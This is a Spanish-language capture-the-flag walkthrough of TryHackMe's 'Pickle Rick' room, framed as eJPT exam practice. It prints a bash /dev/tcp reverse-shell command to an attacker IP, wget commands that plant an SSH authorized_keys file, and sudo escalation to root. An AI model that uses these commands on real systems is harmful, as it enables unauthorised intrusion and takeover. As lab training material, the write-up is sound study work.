

## Resumen

**Pickle Rick** es la segunda máquina de la serie _Road to eJPTv2_ y una de las más entretenidas de TryHackMe. A diferencia de la primera máquina donde el vector fue bruteforce SSH, aquí el enfoque es completamente web: revisión de código fuente, enumeración de directorios y explotación de un panel de comandos con RCE directo. El objetivo es encontrar tres ingredientes secretos que Rick necesita para revertir su transformación en pepinillo.

| Atributo       | Valor                                                          |
| -------------- | -------------------------------------------------------------- |
| **Plataforma** | TryHackMe                                                      |
| **Dificultad** | Fácil                                                          |
| **OS**         | Linux                                                          |
| **Sala**       | [Pickle Rick](https://tryhackme.com/room/picklerick)           |
| **Skills**     | Web Enum, Source Code Review, RCE, Reverse Shell, Sudo Privesc |

### 🎥 Versión en video



> Si prefieres seguir el walkthrough paso a paso, continúa leyendo. El video cubre el mismo proceso en formato visual.

### Herramientas usadas

- `nmap` — enumeración de puertos y servicios
- `whatweb` — fingerprinting del servidor web
- `gobuster` — fuzzing de directorios y archivos
- `netcat` — listener para reverse shell

### Resumen de la solución

1. Nmap revela solo dos puertos: SSH (22) y HTTP (80)
2. El código fuente de la página web expone el usuario `R1ckRul3s`
3. `robots.txt` filtra la contraseña `Wubbalubbadubdub`
4. Gobuster descubre `/login.php` — accedemos con las credenciales encontradas
5. El portal tiene un panel de comandos con RCE — obtenemos reverse shell
6. Encontramos el segundo ingrediente en `/home/rick/`
7. `sudo -l` revela permisos totales sin contraseña → `sudo su` → root
8. Tercer ingrediente en `/root/3rd.txt`

---

## Reconocimiento

### Verificación de conectividad

```bash
ping -c 1 10.201.1.254
64 bytes from 10.201.1.254: icmp_seq=1 ttl=60 time=145 ms
```

> **TTL=60** → la máquina objetivo es **Linux**. Importante para orientar la estrategia desde el inicio.

### Escaneo de puertos con Nmap

Primer barrido a todos los puertos TCP:

```bash
nmap 10.201.1.254 -n -Pn -sS -p- --min-rate=5000 -oG allTCPports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Solo dos puertos. Una superficie de ataque reducida significa que la solución pasa por uno de estos dos servicios. Sin credenciales para SSH todavía, el siguiente paso natural es enumerar el servicio web.

Escaneo dirigido con detección de versiones y scripts:

```bash
nmap 10.201.1.254 -n -Pn -sS -sVC -p22,80 --min-rate=5000 -oN picklescan.txt
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11
80/tcp open  http    Apache httpd 2.4.41 (Ubuntu)
|_http-title: Rick is sup4r cool
```

> **Hallazgos clave:**
>
> - **Puerto 22:** OpenSSH — sin credenciales por ahora, lo dejamos para después
> - **Puerto 80:** Apache con título "Rick is sup4r cool" — hay contenido web que explorar

### Fingerprinting con WhatWeb

```bash
whatweb http://10.201.1.254
Apache[2.4.41], Bootstrap, HTML5, JQuery, Title[Rick is sup4r cool]
```

Stack estándar: Apache + Bootstrap. Sin tecnologías inusuales a primera vista. La enumeración manual del contenido es el siguiente paso.

### Revisión del código fuente

Una de las primeras cosas que hay que hacer en cualquier aplicación web es revisar el código fuente. Los desarrolladores a veces dejan comentarios con información sensible.

En el navegador: `Ctrl + U` o clic derecho → "Ver código fuente".

```html
<!--
    Note to self, remember username!
    Username: R1ckRul3s
-->
```

> **Hallazgo crítico:** usuario `R1ckRul3s` encontrado en un comentario HTML. Nunca dejes credenciales en comentarios — es una vulnerabilidad de exposición de información muy común en entornos reales mal configurados.

### robots.txt

`robots.txt` es un archivo estándar que indica a los motores de búsqueda qué páginas no indexar. En pentesting, siempre hay que revisarlo porque a veces contiene rutas ocultas o, como en este caso, información inesperada.

```
http://10.201.1.254/robots.txt
Wubbalubbadubdub
```

> **Hallazgo:** esta cadena parece una contraseña. Combinada con el usuario encontrado en el código fuente, tenemos credenciales potenciales: `R1ckRul3s:Wubbalubbadubdub`.

### Fuzzing con Gobuster

Con las credenciales en mano, necesitamos un panel de login. Gobuster va a buscar archivos y directorios ocultos:

```bash
gobuster dir -u http://10.201.1.254 \
  -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt \
  -t 50 -x php,txt,xml,html,bak
  /index.html    (Status: 200)
  /login.php     (Status: 200)
  /assets        (Status: 301)
  /portal.php    (Status: 302) [--> /login.php]
  /robots.txt    (Status: 200)
```

> **Hallazgo clave:** `/login.php` con status 200 y `/portal.php` que redirige al login. El portal es lo que buscamos — necesitamos autenticarnos para acceder a él.

---

## Explotación

### Acceso al portal web

Con las credenciales encontradas durante el reconocimiento:

- **Username:** `R1ckRul3s`
- **Password:** `Wubbalubbadubdub`

Accedemos a `http://10.201.1.254/login.php` y las credenciales funcionan. El portal redirige a `/portal.php`.

### Remote Code Execution (RCE)

El portal tiene una pestaña **"Commands"** con un campo de entrada de comandos y un botón "Execute". Esto es **ejecución de código remoto directa** — podemos ejecutar comandos del sistema operativo desde el navegador.



Verificamos que tenemos ejecución real:

```bash
whoami
www-data
```

Tenemos ejecución como `www-data`. Desde aquí podemos navegar el sistema o lanzar una reverse shell para mayor comodidad.

Primer ingrediente encontrado directamente desde el panel:

```bash
cat Sup3rS3cretPickl3Ingred.txt
```

> **Primer ingrediente:** `mr. meeseek hair`

### Reverse Shell

Para mayor comodidad y poder ejecutar comandos más complejos, lanzamos una reverse shell. En nuestra máquina atacante:

```bash
nc -nlvp 4545
```

Desde el panel de comandos del portal:

```bash
bash -c 'bash -i >& /dev/tcp/10.13.93.83/4545 0>&1'
connect to [10.13.93.83] from (UNKNOWN) [10.201.1.254] 56166
www-data@ip-10-201-1-254:/var/www/html$
```

Shell obtenida. Estabilizamos:

```bash
export TERM=xterm
export SHELL=bash
stty rows 41 cols 183
```

> Una shell estabilizada permite usar autocompletado, historial y no se rompe con `Ctrl+C`. Siempre estabiliza antes de seguir enumerando.

---

## Post-explotación

### Identidad y contexto

```bash
id
uname -a
uid=33(www-data) gid=33(www-data) groups=33(www-data)
Linux ip-10-201-1-254 5.15.0-1064-aws x86_64 GNU/Linux
```

Somos `www-data` — usuario del servidor web, sin privilegios especiales visibles. Necesitamos escalar.

### Segundo ingrediente

Explorando los directorios home:

```bash
ls /home/
ls -l /home/rick/
'second ingredients'
```

```bash
cat /home/rick/second\ ingredients
```

> **Segundo ingrediente:** `1 jerry tear`

### Intento de escalada via SSH key

Con acceso como `www-data` e información del usuario `rick`, intentamos crear una clave SSH para conectarnos directamente como `rick`:

```bash
# En nuestra máquina atacante
ssh-keygen -t rsa -b 2048 -f rick_key
cp rick_key.pub authorized_keys
chmod 600 authorized_keys
python3 -m http.server 80

# En la máquina víctima
wget http://10.13.93.83/authorized_keys -O /home/rick/.ssh/authorized_keys
```

La clave se transfirió correctamente, pero **el acceso SSH no funcionó**. Los permisos del directorio `.ssh` o configuraciones del servidor SSH lo impidieron.

> **Lección importante:** cuando un camino no funciona, no te quedes atascado. Enumera otras opciones. En este caso, `sudo -l` era la respuesta.

---

## Escalada de privilegios

### Enumeración de sudo

Cuando la escalada via SSH key no funcionó, la siguiente pregunta es: ¿qué puede ejecutar `www-data` con sudo?

```bash
sudo -l
User www-data may run the following commands on ip-10-201-1-254:
(ALL) NOPASSWD: ALL
```

> **Hallazgo crítico:** `www-data` puede ejecutar **cualquier comando como cualquier usuario sin contraseña**. Esta es una misconfiguración extremadamente peligrosa. En un entorno real, esto equivale a tener root desde el momento que comprometiste el servidor web.

### Escalada a root

```bash
sudo su
whoami
root
```

### Tercer ingrediente

```bash
cat /root/3rd.txt
```

> **Tercer ingrediente:** `3rd ingredients: fleeb juice`

### Los tres ingredientes de Rick

| #   | Ingrediente        | Ubicación                                   |
| --- | ------------------ | ------------------------------------------- |
| 1   | `mr. meeseek hair` | `/var/www/html/Sup3rS3cretPickl3Ingred.txt` |
| 2   | `1 jerry tear`     | `/home/rick/second ingredients`             |
| 3   | `fleeb juice`      | `/root/3rd.txt`                             |

---

## Lecciones aprendidas

- **El código fuente siempre vale revisarlo** — Un comentario HTML expuso el usuario directamente. En aplicaciones reales, credenciales y tokens en comentarios son hallazgos críticos en cualquier pentest web.
- **`robots.txt` no es solo para SEO** — En esta máquina contenía la contraseña. En entornos reales puede revelar rutas de admin, APIs internas o archivos sensibles que el dueño no quería indexar pero dejó accesibles.
- **RCE desde un panel web es el vector más directo posible** — No necesitas exploits sofisticados si la aplicación te da ejecución de comandos directa. La enumeración web minuciosa (gobuster + revisión manual) lo hizo posible.
- **Cuando un camino falla, enumera otro** — El intento de SSH key con `rick` no funcionó. En lugar de seguir insistiendo, `sudo -l` reveló el vector real en segundos. Siempre ten un checklist de técnicas de privesc y ve descartando.
- **`sudo -l` debe ser uno de tus primeros comandos post-shell** — `(ALL) NOPASSWD: ALL` es una de las configuraciones más peligrosas que existe en Linux. Si aparece, ya tienes root.

### Para la eJPT

Esta máquina ejercita habilidades directamente evaluadas en la eJPT:

- Enumeración web manual (código fuente, robots.txt)
- Fuzzing de directorios con `gobuster`
- Identificación y explotación de RCE
- Establecimiento y estabilización de reverse shells
- Enumeración de privilegios con `sudo -l`
- Escalada de privilegios en Linux vía sudo misconfiguration

**Tiempo aproximado de resolución:** 20-30 minutos una vez que dominas la enumeración web básica.

---

## Referencias

- [Pickle Rick — TryHackMe](https://tryhackme.com/room/picklerick)
- [Gobuster documentation](https://github.com/OJ/gobuster)
- [PayloadsAllTheThings — Reverse Shell Cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
- [GTFOBins — sudo](https://gtfobins.github.io/gtfobins/sudo/)
